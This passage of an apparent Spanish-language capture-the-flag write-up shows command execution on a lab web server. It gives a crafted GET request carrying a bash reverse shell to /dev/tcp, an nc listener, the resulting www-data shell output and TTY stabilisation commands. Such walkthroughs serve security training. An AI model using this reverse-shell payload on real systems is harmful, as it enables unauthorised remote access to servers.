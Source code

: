 Vemos que esta funcionando, esta ejecutando codigo de forma remota en el servidor, vamos a realizar una `reverse shell` de esta forma:

```
GET /index.php?cmd=bash+%20-c+%20"bash+%20-i+%20>%26+%20/dev/tcp/<IP>/<PORT>+%200>%261"&pages=<CONTENT_WRAPPER_PHP> HTTP/1.1
Host: bypass403.pw
Referer: http://bypass403.pw
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Antes de enviarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos ese anterior comando y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.3] 58472
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dd55b9d58d01:/var/www/bypass403.pw$ whoami
whoami
www-data
```

Vemos que ha funcionado, por lo que sanitizaremos la shell.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
